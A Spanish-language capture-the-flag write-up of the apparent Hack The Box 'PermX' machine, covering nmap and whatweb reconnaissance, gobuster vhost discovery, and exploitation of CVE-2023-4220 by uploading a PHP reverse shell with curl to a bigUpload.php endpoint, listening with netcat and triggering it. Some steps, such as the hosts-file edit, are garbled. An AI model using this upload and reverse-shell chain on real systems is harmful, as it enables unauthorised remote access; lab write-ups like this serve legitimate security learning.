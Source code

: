 # Reconocimiento
sudo nmap -sS -sV -A --min-rate 5000 --open -vvv -Pn 10.10.11.23

# Resultado

| port | state | service | reason | version |
|------|-------|---------|--------|---------|
| 22 | open | ssh |  syn-ack | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80 | open | http |  syn-ack | Apache httpd 2.4.52 |

- Copiamos la ip en la url de nuestro navegador.
- revisamos la web cargada.
- encontramos la url (http://permx.htb/).

# Copiamos la url en el archivo
- cd nano /etc/hosts
- ip 10.10.11.23 http://permx.htb/
- guardamos con ctrl + s
- ctrl + x

# Realizamos un escaneo con
> whatweb -v -a 3 http://permx.htb/ 

# Encontramos

| Resultado |
|-----------|
| Summary   : Apache[2.4.52], |
|  Bootstrap[5.0.0] |
| Email[permx@htb.com] |
| HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)] |
| JQuery[3.4.1] |

# Ataque de directorio con Gobuster

| ataque | estado |
|--------|--------|
| sudo gobuster vhost -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://permx.htb --append-domain | grep -v "Status: 302" | exitoso |

| resultado |
|-----------|
| lms.permx.htb |

# Reconocimiento de la nueva url encontrada con whatweb

|Ataque|
|------|
| whatweb -v -a 3 http://lms.permx.htb/index.php |


|resultados|
|----------|
| Apache |
| Version      : 2.4.52 (from HTTP Server Header) Google Dorks: (3)  
| Website     : http://httpd.apache.org/ |

# CVE

- CVE-2023-4220

- Investigamos en internet la revershell que podriamos usar con este CVE
- Descargamos la shell
- La enviamos al servidor 

curl -F 'bigUploadFile=@sheel.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 

- Nos colocamos en escucha

| nc |
| sudo nc -lvnp 9001 |

- Ejecutamos la Revershell

curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/sheel.php'

